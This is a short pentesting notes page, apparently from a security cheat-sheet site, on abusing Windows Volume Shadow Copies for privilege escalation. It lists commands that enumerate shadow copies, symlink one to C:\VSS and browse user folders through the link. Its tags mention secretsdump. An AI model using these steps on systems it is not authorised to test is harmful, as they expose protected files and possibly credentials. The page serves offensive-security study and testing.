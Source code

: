 ```yaml
---
title: "Volume Shadow Copies"
date: 2024-8-22
tags: ["Volume Shadow Copies", "privesc", "Windows", "secretsdump", "vsc"]
---
```


### Abuse #1: Recover data from shadow copies

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Check

```console
vssadmin list shadows
```

#### 2. Create symlink and expose the volume

```console
cmd /c mklink /d C:\VSS <SHADOW_COPY_VOLUME_PATH>
```

#### 3. Access

```console
ls C:\VSS\Users
```

{{< /tabcontent >}}
